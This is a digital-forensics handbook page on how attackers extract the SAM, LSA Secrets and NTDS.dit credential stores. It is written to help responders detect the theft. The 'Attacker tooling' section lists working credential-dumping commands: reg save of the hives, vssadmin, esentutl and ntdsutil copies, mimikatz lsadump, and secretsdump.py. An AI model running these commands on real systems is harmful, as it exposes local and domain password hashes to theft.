

repository: DFIDwiz-sketch/dfir-handbook · page: adversary/sam-ntds-extraction/index.html · generator: mkdocs

---
title: SAM, LSA Secrets & NTDS.dit Extraction
tags:
  - technique
  - adversary
  - credential-access
---

# SAM, LSA Secrets & NTDS.dit Extraction

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1003.002 (Security Account Manager) · T1003.004 (LSA Secrets) · T1003.003 (NTDS) · **Tactic:** Credential Access · **Last updated:** 2026-10-07
</div>

!!! abstract "Summary"
    [LSASS dumping](lsass-dumping.md) steals what is *in memory*. This page is the *on-disk* half: the **SAM** hive (local account NT hashes), the **SECURITY** hive (LSA Secrets — service account passwords, cached domain logons, the machine account secret) and, on a domain controller, **`NTDS.dit`** (every domain account's hash, including `krbtgt`). All of them are encrypted with a key derived from the **SYSTEM** hive, so attackers always grab SYSTEM too. Because these files are locked while Windows runs, the attacker copies them through the registry API, a **Volume Shadow Copy**, or `ntdsutil` "Install From Media".

## How the attack works

```mermaid
flowchart LR
    A[Admin / SYSTEM on host] --> R[reg save HKLM\SAM, SECURITY, SYSTEM]
    A --> V[Create shadow copy<br/>vssadmin / wmic / diskshadow]
    V --> C[Copy locked files<br/>from \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyN]
    A --> N[DC only: ntdsutil IFM<br/>ac i ntds → ifm → create full]
    R --> X[Exfil hives]
    C --> X
    N --> X
    X --> S[secretsdump.py offline]
    S --> H[Local NT hashes · LSA secrets · cached creds · all domain hashes]
```

The key point for responders: **once the files leave the host, the cracking and parsing happen offline**. Everything detectable happens in the short copy window on the host.

## Attacker tooling / commands

```text
# Registry API — no shadow copy needed (local hives)
reg save HKLM\SAM     C:\Windows\Temp\sam.save
reg save HKLM\SYSTEM  C:\Windows\Temp\system.save
reg save HKLM\SECURITY C:\Windows\Temp\security.save

# Shadow copy route (for NTDS.dit or locked files)
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\Temp\
esentutl.exe /y /vss C:\Windows\NTDS\ntds.dit /d C:\Temp\ntds.dit

# DC: Install From Media (legitimate admin feature, abused)
ntdsutil "ac i ntds" "ifm" "create full C:\Temp\ifm" q q

# In-memory / remote equivalents
mimikatz  lsadump::sam  /  lsadump::secrets  /  lsadump::cache
secretsdump.py  CORP/admin@10.0.0.5          # remote: uses RemoteRegistry + temp files
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
